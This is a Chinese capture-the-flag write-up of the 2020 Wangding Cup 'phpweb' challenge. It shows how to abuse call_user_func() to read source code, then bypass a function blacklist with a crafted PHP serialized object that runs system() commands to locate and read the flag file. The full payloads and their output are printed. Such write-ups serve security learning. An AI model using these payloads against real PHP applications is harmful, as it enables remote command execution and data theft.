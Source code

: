 # [网鼎杯 2020 朱雀组]phpweb call_user_func()

<img src="https://i-blog.csdnimg.cn/blog_migrate/ebcd1d5cb5f77abd8da7e21eedbb82ec.png" alt="" style="max-height:258px; box-sizing:content-box;" />


时间一跳一跳的 抓个包



<img src="https://i-blog.csdnimg.cn/blog_migrate/426fdf1ef2685fce123e0346f2959721.png" alt="" style="max-height:250px; box-sizing:content-box;" />


很奇怪 结合上面的 date() 认为第一个是函数我们随便输一个看看



<img src="https://i-blog.csdnimg.cn/blog_migrate/51b8460394e286e52b016cb3de13d664.png" alt="" style="max-height:295px; box-sizing:content-box;" />


发现过滤了

随便输一个linux指令



<img src="https://i-blog.csdnimg.cn/blog_migrate/63a50f6b7267839f7a45e27928c02f63.png" alt="" style="max-height:348px; box-sizing:content-box;" />


发现报错了 call_user_func()

看看是啥



<img src="https://i-blog.csdnimg.cn/blog_migrate/98f6427ece41715ff3b409d9d67171b0.png" alt="" style="max-height:266px; box-sizing:content-box;" />


很容易理解 第一个参数是函数名 后面是 参数

那么这里就是

func 函数  p 数值

所以我们看看有什么办法可以

我们尝试读取源代码看看吧

最简单的 伪协议函数

```cobol
func=file_get_contents&p=index.php
```

成功读取了

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
 
    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

过滤了许多函数 system在里面

这里我们发现了 __destruct()

```php
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
```

这里很显然魔术方法就是让我们反序列了

既然 $p为参数   $func为函数名

我们直接构造序列化就可以了

```php
<?php
    class Test {
        var $p = "ls";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
$a=new Test();
echo urlencode(serialize($a));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/cb369fd2b3991cd9bf95f7d5c6e69a59.png" alt="" style="max-height:254px; box-sizing:content-box;" />




```cobol
O:4:"Test":2:{s:1:"p";s:17:"find /-name flag*";s:4:"func";s:6:"system";}
```

查找flag文件

```cobol
</script>
<p>
    /proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu10/domain0/flags
/proc/sys/kernel/sched_domain/cpu11/domain0/flags
/proc/sys/kernel/sched_domain/cpu12/domain0/flags
/proc/sys/kernel/sched_domain/cpu13/domain0/flags
/proc/sys/kernel/sched_domain/cpu14/domain0/flags
/proc/sys/kernel/sched_domain/cpu15/domain0/flags
/proc/sys/kernel/sched_domain/cpu16/domain0/flags
/proc/sys/kernel/sched_domain/cpu17/domain0/flags
/proc/sys/kernel/sched_domain/cpu18/domain0/flags
/proc/sys/kernel/sched_domain/cpu19/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu20/domain0/flags
/proc/sys/kernel/sched_domain/cpu21/domain0/flags
/proc/sys/kernel/sched_domain/cpu22/domain0/flags
/proc/sys/kernel/sched_domain/cpu23/domain0/flags
/proc/sys/kernel/sched_domain/cpu24/domain0/flags
/proc/sys/kernel/sched_domain/cpu25/domain0/flags
/proc/sys/kernel/sched_domain/cpu26/domain0/flags
/proc/sys/kernel/sched_domain/cpu27/domain0/flags
/proc/sys/kernel/sched_domain/cpu28/domain0/flags
/proc/sys/kernel/sched_domain/cpu29/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/proc/sys/kernel/sched_domain/cpu30/domain0/flags
/proc/sys/kernel/sched_domain/cpu31/domain0/flags
/proc/sys/kernel/sched_domain/cpu4/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu8/domain0/flags
/proc/sys/kernel/sched_domain/cpu9/domain0/flags
/sys/devices/pnp0/00:00/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags
/sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags
/sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/tunl0/flags
/tmp/flagoefiu4r93
/tmp/flagoefiu4r93</p>
```

很显然 最后两个很奇怪 我们直接读取

```cobol
 
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ce17a74e847ac6ffdff8c7dd374474ad.png" alt="" style="max-height:344px; box-sizing:content-box;" />


得到了 flag

这里主要考点是 call_user_func()

然后通过反序列化传递参数 很简单的一道题了

水一下吧^^